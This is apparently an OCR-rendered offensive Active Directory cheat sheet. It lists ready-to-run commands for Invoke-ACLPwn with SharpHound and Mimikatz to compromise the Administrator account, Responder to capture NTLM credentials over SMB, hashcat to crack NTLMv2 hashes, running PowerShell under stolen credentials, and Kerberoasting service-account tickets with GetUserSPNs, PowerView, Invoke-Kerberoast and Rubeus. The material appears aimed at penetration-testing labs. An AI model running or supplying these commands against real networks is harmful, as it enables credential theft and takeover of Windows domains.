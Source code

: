 #Using Invoke-ACLPwn
./Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -Username 'testuser' -Domain 'xenoflux.local' -Password 'Welcome01!'
./Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -userAccountToPwn 'Administrator'

Creds Sniffing when SMB Signing is not required/ Disbaled 
responder -I tun0 -F --lm -d -w -i KALI_IP

net use \\10.10.14.239    #on target machine or Access SMB 

OR 
responder -I tun0 -rPv 

#NTLMv2 Hash
hashcat -m 5600 hash ~/Downloads/rockyou.txt --force -r  /usr/share/hashcat/rules/d3ad0ne.rule

Running Commands as other user using powershell 
$SecPassword = ConvertTo-SecureString 'Password123!'-AsPlainText -Force 

$Cred = New-Object System.Management.Automation.PSCredential('Domain\UserName', $SecPassword) 

Get-aduser -Identity user1 -Credential $Cred

Kerberoasting 

Save the TGS ticket to the disk and brute force it. DC identifies the service account by ServicePrincipalName  but service accounts password are freaking hard to crack in most of the cases.

Find users with SPN's set to their Accounts
#import the module and Find the users 
Import-Module .\GetUserSPNs.ps1

or 
#AD module
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName

or 
#Poweview
Get-NetUser -SPN 

Get TGS Ticket Using GetUserSPNs.py
sudo GetUserSPNs.py -request -dc-ip 10.10.10.10 Steins.local/mark 

Get TGS Ticket Using AD Module 
#request the TGS Ticket using AD Module, use the SPN name found using above commands
powershell.exe -exec bypass -c "Add-Type -AssemblyName System.IdentityModel; New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'SPNNAME/hostname.steins.LOCAL:1433' "

Get TGS Ticket Using PowerView
Request-SPNTicket

Get TGS Ticket Using Invoke-Kerberoast
Import-Module .\Invoke-Kerberoast.ps1
#Generate the hash
Invoke-Kerberoast -OutputFormat Hashcat 
Get TGS Ticket Using Rubeus
.\Rubeus.exe kerberoast /domain:steins.local /user:username/format:hashcat /outfile:hash.txt
